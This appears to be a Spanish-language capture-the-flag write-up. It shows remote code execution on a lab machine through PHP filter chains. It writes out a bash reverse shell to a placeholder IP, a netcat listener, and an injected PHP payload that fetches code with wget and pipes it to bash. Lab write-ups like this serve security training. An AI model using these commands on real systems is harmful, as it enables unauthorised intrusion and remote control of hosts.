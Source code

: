 ### 🔍 ¿Qué hace exactamente?

Genera una **cadena de filtros encadenados** en PHP (`php://filter`) que permite:

- **Codificar un archivo en base64**.

### ¿Qué incluye el proyecto?

- Script en Python para generar las cadenas de filtros (`php_filter_chain_generator.py`).

### ✅ 1. Crear payload (reverse shell en Bash)

```jsx
**echo 'bash -i >& /dev/tcp/IP_LOCAL/443 0>&1' > Zayrus_shell ; chmod +x Zayrus_shell**
```

### 🌐 2. Levantar servidor web donde está el archivo

```bash
python3 -m http.server 80
```

Esto servirá el archivo Zayrus_shell en `http://IP_LOCAL/Zayrus_shell`

### 📞 3. Poner en escucha con Netcat

```bash
nc -nlvp 443
```

![image.png](Loweb%20by%20Skvll%20Zayru5%201e4cb9b1e60b805cb36fd80bc2430599/image%2011.png)

### 🧪 4. Generar wrapper con `php_filter_chain_generator`

```bash
└─$ python3 php_filter_chain_generator.py --chain '<?=`wget -O- 192.168.11.11/Z|bash`?>'
```

Esto generará un **payload largo**, algo como:

```bash
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode
```

📌 **Importante:** si el wrapper es largo generará error 

![image.png](Loweb%20by%20Skvll%20Zayru5%201e4cb9b1e60b805cb36fd80bc2430599/image%2012.png)

![image.png](Loweb%20by%20Skvll%20Zayru5%201e4cb9b1e60b805cb36fd80bc2430599/image%2013.png)

# 🔓 INTRUSIÓN - ESCALANDO PRIVILEGIOS

🎯 Se ha conseguido una **reverse shell** como el usuario `www-data`, lo cual confirma que se ha logrado **Remote Code Execution (RCE)** exitosamente. Ahora me encuentro dentro del sistema.

